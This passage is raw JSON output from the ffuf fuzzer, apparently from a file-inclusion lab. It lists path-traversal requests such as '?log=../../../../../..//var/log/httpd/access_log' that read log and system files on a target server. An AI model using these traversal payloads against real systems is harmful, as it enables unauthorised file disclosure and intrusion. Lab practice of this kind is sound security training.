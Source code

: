 charset=UTF-8","redirectlocation":"","scraper":{},"duration":43736178,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/httpd/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5be","FUZZ":"/var/log/httpd/access.log"},"position":190,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43983239,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/httpd/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5bc","FUZZ":"/var/log/ftp-proxy/ftp-proxy.log"},"position":188,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44151470,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/ftp-proxy/ftp-proxy.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5bf","FUZZ":"/var/log/httpd/error_log"},"position":191,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44778703,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/httpd/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c0","FUZZ":"/var/log/httpd/error.log"},"position":192,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44518882,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/httpd/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c2","FUZZ":"/var/log/httpsd/ssl_log"},"position":194,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44312721,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/httpsd/ssl_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c1","FUZZ":"/var/log/httpsd/ssl.access_log"},"position":193,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45546487,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/httpsd/ssl.access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c3","FUZZ":"/var/log/kern.log"},"position":195,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44649982,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/kern.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c4","FUZZ":"/var/log/lastlog"},"position":196,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45404946,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/lastlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c5","FUZZ":"/var/log/lighttpd/access.log"},"position":197,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45727178,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/lighttpd/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ca","FUZZ":"/var/log/mail.log"},"position":202,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43769768,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mail.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c7","FUZZ":"/var/log/lighttpd/lighttpd.access.log"},"position":199,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45697728,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/lighttpd/lighttpd.access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c6","FUZZ":"/var/log/lighttpd/error.log"},"position":198,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46252371,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/lighttpd/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5cc","FUZZ":"/var/log/mail.warn"},"position":204,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42903463,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mail.warn","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5cd","FUZZ":"/var/log/message"},"position":205,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42692962,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/message","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5cb","FUZZ":"/var/log/maillog"},"position":203,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;